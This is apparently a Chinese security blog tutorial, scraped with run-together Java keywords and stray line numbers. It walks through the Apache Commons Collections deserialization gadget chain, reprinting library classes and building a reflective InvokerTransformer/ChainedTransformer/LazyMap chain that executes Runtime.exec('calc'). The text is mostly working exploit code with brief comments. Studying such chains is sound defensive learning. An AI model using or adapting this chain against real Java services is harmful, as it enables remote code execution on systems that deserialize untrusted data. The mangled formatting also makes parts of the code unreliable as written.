

public class ConstantTransformer implements Transformer, Serializable {
/** The closures to call in turn */ private final Object iConstant; /** * Constructor that performs no validation. * Use <code>getInstance</code> if you want that. * * @param constantToReturn the constant to return each time */ public ConstantTransformer(Object constantToReturn) { super(); iConstant = constantToReturn; }
/** * Transforms the input by ignoring it and returning the stored constant instead. * * @param input the input object which is ignored * @return the stored constant */ public Object transform(Object input) { return iConstant; } }
public class ChainedTransformer implements Transformer, Serializable { /** The transformers to call in turn */ private final Transformer[] iTransformers; /** * Constructor that performs no validation. * Use <code>getInstance</code> if you want that. * * @param transformers the transformers to chain, not copied, no nulls */ public ChainedTransformer(Transformer[] transformers) { super(); iTransformers = transformers; } /** * Transforms the input to result via each decorated transformer * * @param object the input object passed to the first transformer * @return the transformed result */ public Object transform(Object object) { for (int i = 0; i < iTransformers.length; i++) { object = iTransformers[i].transform(object); } return object; }
publicclassLazyMapextendsAbstractMapDecoratorimplementsMap, Serializable{ publicstatic Map decorate(Map map, Transformer factory){ returnnew LazyMap(map, factory); } protectedLazyMap(Map map, Transformer factory){ super(map); if (factory == null) { thrownew IllegalArgumentException("Factory must not be null"); } this.factory = factory; } public Object get(Object key){ // create value for key if key is not currently in the map if (map.containsKey(key) == false) { Object value = factory.transform(key); map.put(key, value); return value; } return map.get(key); } }
classAnnotationInvocationHandlerimplementsInvocationHandler, Serializable{ privatefinal Map<String, Object> memberValues; AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) { Class<?>[] superInterfaces = type.getInterfaces(); if (!type.isAnnotation() || superInterfaces.length != 1 || superInterfaces[0] != java.lang.annotation.Annotation.class) thrownew AnnotationFormatError("Attempt to create proxy for a non-annotation type."); this.type = type; this.memberValues = memberValues; } public Object invoke(Object proxy, Method method, Object[] args){ String member = method.getName(); Class<?>[] paramTypes = method.getParameterTypes();
// Handle Object and Annotation methods if (member.equals("equals") && paramTypes.length == 1 && paramTypes[0] == Object.class) return equalsImpl(args[0]); if (paramTypes.length != 0) thrownew AssertionError("Too many parameters for an annotation method");
// Check to make sure that types have not evolved incompatibly
AnnotationType annotationType = null; try { annotationType = AnnotationType.getInstance(type); } catch(IllegalArgumentException e) { // Class is no longer an annotation type; time to punch out thrownew java.io.InvalidObjectException("Non-annotation type in annotation serial stream"); }
// If there are annotation members without values, that // situation is handled by the invoke method. for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) { String name = memberValue.getKey(); Class<?> memberType = memberTypes.get(name); if (memberType != null) { // i.e. member still exists Object value = memberValue.getValue(); if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) { memberValue.setValue( new AnnotationTypeMismatchExceptionProxy( value.getClass() + "[" + value + "]").setMember( annotationType.members().get(name))); } } } } }
//获取Runtime类的Class 对象 Class C = Runtime.class; //获取getRuntime方法 Method getRuntimeMethod = C.getMethod("getRuntime",null); //invoke调用getRuntimeMethod方法，获取Runtime对象。getRuntime是无参静态方法，所以传递两个null就行，返回值是一个Object类型，我们把他强转为getRuntime Runtime r = (Runtime) getRuntimeMethod.invoke(null,null); //获取Runtime类的exec方法 Method execMethod = C.getMethod("exec",String.class); //调用exec方法 execMethod.invoke(r,"calc");
运行代码：

将其转换为InvokerTransformer的形式，
1 2 3 4
Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class); Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntimeMethod); new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
Transformer[] transformers = new Transformer[]{ new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}), new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}), new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}) };
new ChainedTransformer(transformers).transform(Runtime.class);
/** The closures to call in turn */ privatefinal Object iConstant; /** * Constructor that performs no validation. * Use <code>getInstance</code> if you want that. * * @param constantToReturn the constant to return each time */ publicConstantTransformer(Object constantToReturn){ super(); iConstant = constantToReturn; }
/** * Transforms the input by ignoring it and returning the stored constant instead. * * @param input the input object which is ignored * @return the stored constant */ public Object transform(Object input){ return iConstant; } }
直接上代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16
//new 一个Transformer[]数组，将InvokerTransformer对象传递进去，形成链式调用。ConstantTransformer对象负责把String类型换成Runtime.class Transformer[] transformers = new Transformer[]{ new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}), new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}), new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}) }; //new 一个ChainedTransformer对象 Transformer chainedTransformer = (Transformer) new ChainedTransformer(transformers); //decorate还需要一个Map类型，所以new一个HashMap,因为map.containsKey(key)会判断是否包含指定的键，所以我们传一个空的map就行，让他走到factory.transform(key); Map<Integer,Integer> map = new HashMap<>(); //调用decorate静态方法构造LazyMap对象，它返回Map类型。 Map<Object,Object> r = LazyMap.decorate(map,chainedTransformer); //定义一个String类型的变量，模拟一下 String member = "member"; r.get(member);